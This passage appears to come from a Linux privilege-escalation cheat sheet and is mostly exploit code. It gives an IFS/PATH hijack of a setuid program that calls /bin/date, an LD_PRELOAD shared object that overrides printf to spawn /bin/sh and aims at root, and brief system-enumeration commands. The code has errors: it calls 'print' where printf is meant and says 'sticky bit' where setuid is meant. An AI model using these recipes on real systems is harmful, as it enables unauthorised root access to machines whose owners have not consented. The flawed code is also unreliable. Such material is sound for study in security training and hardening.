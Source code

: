 * IFS exploit on SUID program that calls a known program
```sh
# verify our shell payload
ls -l /home/me/bin

# alter PATH and IFS so that our local script `bin` will be executed
PATH=/home/me:${PATH}
export PATH
IFS=/
export IFS

# abuse the fact that /usr/local/date has sticky bit set and calls /bin/date
/usr/local/date

# we should be root now
```

* LD_PRELOAD exploit
```sh
$ cat root.c
main() {
    setuid(0);
    setgid(0);
    print("Got root");
}
$ gcc -o root root.c
$ cat root_so.c
void printf(char * str) {
    execl("/bin/sh", "sh", 0);
}
$ gcc -shared -o root_so.so root_so.c
$ LD_PRELOAD=./root_so.so
$ export LD_PRELOAD
$ ./root
# you should be root now
```


## Linux Local Information Gathering

* List Kernel / OS info
``` sh
cat /etc/issue && uname -a && cat /proc/version
```

* CentOS / RHEL specific
``` sh
cat /etc/redhat-release
```

* CPU details
``` sh
lscpu
uname -m
```
